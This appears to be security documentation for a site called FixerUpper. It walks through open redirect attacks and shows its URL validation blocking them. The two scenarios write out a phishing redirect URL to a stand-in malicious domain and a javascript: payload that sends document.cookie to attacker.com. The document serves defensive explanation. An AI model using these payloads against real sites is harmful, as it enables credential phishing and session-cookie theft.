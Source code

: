 **Threat Description**: Open redirect vulnerabilities allow attackers to redirect users to malicious websites while appearing to come from the legitimate site.

**Attack Scenario - Step by Step**:

**Scenario 1: Phishing Redirect Attack**
```
Step 1: Attacker creates fake FixerUpper login page
- Attacker sets up fixerupper-login.evil-site.com
- Creates convincing copy of FixerUpper's login page
- Includes form that steals credentials

Step 2: Attacker crafts redirect URL
- URL: https://fixerupper.com/login?redirect=https://fixerupper-login.evil-site.com
- Disguises malicious site as legitimate FixerUpper subdomain

Step 3: Without protection - what happens:
- User clicks link or visits URL
- FixerUpper login page loads normally
- After login, user redirected to evil-site.com
- User sees fake FixerUpper page, enters credentials
- Credentials stolen: username/password sent to attacker
- Attacker gains access to user's FixerUpper account

Step 4: With our protection - what happens:
- URL validation checks redirect parameter
- Domain not in whitelist: "fixerupper-login.evil-site.com"
- Redirect blocked: "Invalid redirect URL"
- User remains on FixerUpper, no redirection occurs
- Security alert logged: "Open redirect attempt blocked"

Step 5: Consequences comparison:
Without protection: User credentials stolen, account compromised, unauthorized purchases
With protection: Attack blocked, user credentials secure, no account compromise
```

**Scenario 2: JavaScript Code Injection Attack**
```
Step 1: Attacker targets redirect parameter
- Attacker finds redirect functionality in FixerUpper
- Identifies that redirect parameter is processed without validation

Step 2: Attacker crafts JavaScript injection
- URL: https://fixerupper.com/login?redirect=javascript:alert('XSS')
- Attempts to execute JavaScript code in user's browser

Step 3: Without protection - what happens:
- User visits malicious URL
- FixerUpper processes redirect parameter
- JavaScript code executes: alert('XSS') shows popup
- Attacker can modify to steal cookies: javascript:document.location='http://attacker.com/steal?cookie='+document.cookie
- User's session cookies stolen and sent to attacker

Step 4: With our protection - what happens:
- Suspicious pattern detection identifies "javascript:" protocol
- Protocol validation blocks JavaScript execution
- Redirect blocked: "Invalid protocol detected"
- No JavaScript execution occurs
- User remains on FixerUpper safely

Step 5: Consequences comparison:
Without protection: JavaScript executes, cookies stolen, session hijacked
With protection: Attack blocked, no code execution, session secure
```
